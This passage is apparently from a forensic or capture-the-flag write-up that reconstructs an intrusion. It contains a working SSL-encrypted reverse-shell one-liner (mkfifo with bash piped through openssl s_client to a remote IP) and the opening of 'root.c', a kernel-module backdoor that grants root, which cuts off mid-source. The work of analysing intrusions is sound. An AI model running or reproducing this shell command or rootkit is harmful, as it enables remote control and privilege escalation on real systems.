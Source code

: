 Length: 3094 (3.0K) [text/plain]
Saving to: 'root.c'

     0K ...                                                   100%  318M=0s

2018-12-10 21:53:20 (318 MB/s) - 'root.c' saved [3094/3094]

mkfifo /tmp/rH7dQR; /bin/bash -i 2>&1 < /tmp/rH7dQR | openssl s_client -quiet -connect 10.0.2.19:4445 > /tmp/rH7dQR; rm /tmp/rH7dQR
depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
verify error:num=18:self signed certificate
verify return:1
depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
verify return:1

{% endhighlight %}

Basically, the attacker downloaded some files and then upgraded his shell to a SSL-encrypted one. After some searching, I was able to locate the source code of root.c:

{% highlight cpp %}
#include <linux/init.h>   
#include <linux/module.h> 
#include <linux/kernel.h>
#include <linux/device.h>
#include <linux/fs.h>    
#include <asm/uaccess.h>
#include <linux/slab.h>
#include <linux/syscalls.h>
#include <linux/types.h>
#include <linux/cdev.h>
#include <linux/cred.h>
#include <linux/version.h>

#define  DEVICE_NAME "ttyR0" 
#define  CLASS_NAME  "ttyR"

#if LINUX_VERSION_CODE > KERNEL_VERSION(3,4,0)
#define V(x) x.val
#else
#define V(x) x
#endif

// Prototypes
static int     __init root_init(void);
static void    __exit root_exit(void);
static int     root_open  (struct inode *inode, struct file *f);
static ssize_t root_read  (struct file *f, char *buf, size_t len, loff_t *off);
static ssize_t root_write (struct file *f, const char __user *buf, size_t len, loff_t *off);

// Module info
MODULE_LICENSE("GPL"); 
MODULE_AUTHOR("pico");
MODULE_DESCRIPTION("Got r00t!."); 
MODULE_VERSION("0.1"); 

static int            majorNumber; 
static struct class*  rootcharClass  = NULL;
static struct device* rootcharDevice = NULL;

static struct file_operations fops =
{
  .owner = THIS_MODULE,
  .open = root_open,
  .read = root_read,
  .write = root_write,
};

static int